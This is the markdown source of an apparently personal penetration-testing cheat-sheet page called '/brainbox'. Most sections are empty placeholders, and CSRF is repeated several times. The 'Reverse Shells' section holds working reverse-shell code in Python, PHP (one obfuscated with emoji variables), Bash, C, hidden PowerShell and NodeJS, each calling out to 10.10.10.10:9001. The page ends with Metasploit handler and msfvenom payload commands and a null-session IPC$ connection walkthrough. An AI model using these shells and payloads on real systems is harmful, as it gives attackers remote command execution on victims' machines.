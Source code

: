 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        content 1.2
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
    #### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
    ```
    #### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    #### Bash
``` bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    #### PHP Emoji
 ```php
    php -r '$ð="1";$ð="2";$ð="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð. $ð¤¢. $ð¤ . $ðµ. $ð. $ð¤¢. $ð. $ð¤ . $ðµ. $ð;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
 ```
    #### C
   ```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
    ```
    
    ### Powershell
```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
   #### NodeJS
    ```js
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
    ```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>

## Metasploit 
#### ./ Multi Use Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
